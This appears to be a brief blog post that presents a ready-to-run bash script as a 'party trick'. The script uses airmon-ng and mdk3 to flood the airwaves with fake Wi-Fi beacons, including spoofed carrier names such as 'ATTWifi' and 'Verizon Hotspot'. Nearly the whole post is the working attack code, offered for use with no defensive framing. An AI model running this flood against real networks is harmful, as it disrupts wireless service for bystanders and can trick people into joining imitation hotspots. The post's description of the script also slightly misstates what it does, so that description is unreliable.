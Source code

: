 ﻿---

title:  Beacon Attack Script
date:   2014-05-20 00:00:00 -0500
categories: IT
---






Using MDK3 to create a bunch of fake wireless networks is a neat party trick. This bash script will create a text file with a list of network names, defined in a the "networks" array, if it doesn't already exist.

Then the script will configure the interface by putting it in monitor mode. Finally the script will fire off MDK3 using the text file created earlier.

You must have aircrack and mdk3 installed.
```powershellnetworks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```


